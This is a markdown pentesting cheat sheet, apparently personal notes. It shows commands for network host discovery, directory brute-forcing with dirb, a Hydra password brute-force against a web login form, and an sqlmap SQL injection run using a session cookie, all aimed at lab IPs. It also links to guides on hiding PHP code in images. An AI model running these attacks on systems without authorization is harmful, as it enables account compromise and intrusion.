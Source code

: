 # Pentesting

## Links

* [A Penetration Tester’s Guide to Postgres](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Code injection – a simple PHP virus carried in a JPEG image](http://php.webtutor.pl/en/2011/05/13/php-code-injection-a-simple-virus-written-in-php-and-carried-in-a-jpeg-image/)
* [Injecting Malicious PHP In To An Image File : Injection And Execution](http://techyzilla.blogspot.ca/2012/07/injecting-malicious-php-in-to-an-image-file.html)

## Useful Commands

### Searching a range of IP Address

```text
root@kali:~# netdiscover -i eth2 -r 192.168.0.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 240
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.0.1     f8:1a:67:5a:fe:24      1      60  TP-LINK TECHNOLOGIES CO.,LTD
 192.168.0.100   a8:60:b6:3a:56:ce      2     120  Apple, Inc.
 192.168.0.101   e0:3f:49:14:a9:0d      1      60  Unknown vendor
```

## Useful Tools

### DIRB

Searches all the directory contents on a website

#### Usage

```text
dirb http://192.168.0.104/ /usr/share/wordlists/dirb/big.txt
```

#### Resources

* [http://tools.kali.org/web-applications/dirb](http://tools.kali.org/web-applications/dirb)
* [https://github.com/seifreed/dirb](https://github.com/seifreed/dirb)

### gobuster

Directory/file & DNS busting tool written in Go.

#### Resources

* [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)

### Hydra

Exploiting Username and Password forms.

#### Usage

```text
hydra 192.168.0.104 http-post-form '/imfadministrator/index.php:user=^USER^&pass=^PASS^:Invalid password' -L /root/usernames.txt -P /usr/share/wordlists/metasploit/password.lst -vV -t 10 -w 30 -o hydra-http-post-attack.txt
```

#### Resources

* [http://tools.kali.org/password-attacks/hydra/](http://tools.kali.org/password-attacks/hydra/)
* [https://www.blackmoreops.com/2015/12/23/crack-passwords-in-kali-linux-with-hydra/](https://www.blackmoreops.com/2015/12/23/crack-passwords-in-kali-linux-with-hydra/)
* [http://insidetrust.blogspot.ca/2011/08/using-hydra-to-dictionary-attack-web.html](http://insidetrust.blogspot.ca/2011/08/using-hydra-to-dictionary-attack-web.html)

### sqlmap

Used for doing SQL injection stuff.

#### Usage

When having to log into an PHPSESSIONID auth:

```text
sqlmap -u http://192.168.0.104/imfadministrator/cms.php?pagename=upload --banner --cookie="PHPSESSID=m0i2uapvsqlklug2tpe2a8cis2; security=low" -f
```

